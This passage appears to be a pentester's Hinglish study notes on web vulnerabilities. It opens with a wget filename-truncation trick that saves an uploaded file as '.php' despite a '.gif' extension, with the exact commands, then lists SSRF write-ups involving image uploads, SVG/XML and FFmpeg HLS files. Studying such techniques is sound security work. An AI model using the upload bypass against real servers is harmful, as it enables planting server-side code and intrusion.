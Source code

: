        # 2. Simple HTTP server chalu karo
       python3 -m http.server 9080

       # 3. Victim server par wget ka use karo to download your file
       wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
       ```

       Output:

       ```
       New name is AAAAAA....AAAAA.php
       ```

       BOOM! Server `.gif` samjha, lekin `.php` file upload ho gayi ✅

       #### ❌ **Redirect Trick Nahi Chalega Unless...**

       Agar tum socho:

       > "Ek URL do .gif, lekin HTTP redirect kare .php pe"

       Toh `wget` fir bhi original `.gif` wale naam se hi save karega — **jab tak** `--trust-server-names` flag na diya ho.

       #### 🛠️ **Tools:**

       **Upload Bypass Tool** — Ek aisa tool hai jo pentesters ko help karta hai file upload vulnerabilities dhundhne aur bypass karne mein.
   * [\*SSRF Blind in the image upload module via url](https://huntr.com/bounties/beba9b98-2a5c-4629-987d-b67f47ba9437) - - > done read\*
   * [\*My First Bug: Blind SSRF Through Profile Picture Upload](https://infosecwriteups.com/my-first-bug-blind-ssrf-through-profile-picture-upload-72f00fd27bc6) xml/svg - - > done read\*
   *   SSRF VIA ffmpeg AVI/M3UG

       > _(A)_ [_SSRF via FFmpeg HLS processing_](https://medium.com/@pflash0x0punk/ssrf-via-ffmpeg-hls-processing-a04e0288a8c5) _- - > done read_
       >
       > tip - - > **agar server uploaded video file ke andar embedded URL pe request kare**, toh **ye behavior FFmpeg ka hota hai** → **strong indirect proof**. (B) [\*HLS m3u8 Files for SSRF](https://www.ids-sax2.com/understanding-ffmpeg-vulnerabilities-exploiting-hls-m3u8-files-for-ssrf-and-arbitrary-file-read/) - - > done read\*
       >
       > tip - - > When a website allows users to upload multimedia files and processes them using FFmpeg, this vulnerability can be triggered.
   * [XML - - >](https://www.notion.so/XML-1e7014d507fc80cfa38efd8c145e0e95?pvs=21) _- - > done read_
2.  **`Proxy/Redirect Services:` Identify any URL-fetching API (e.g. “fetch this URL and return content”), open proxy pages, or redirectors. These typically take a URL parameter; test them directly. They often yield SSRF.**

    *   _S_[_SRF via SNI data from certificate(hacktrick)_](https://www.invicti.com/blog/web-security/ssrf-vulnerabilities-caused-by-sni-proxy-misconfigurations/)
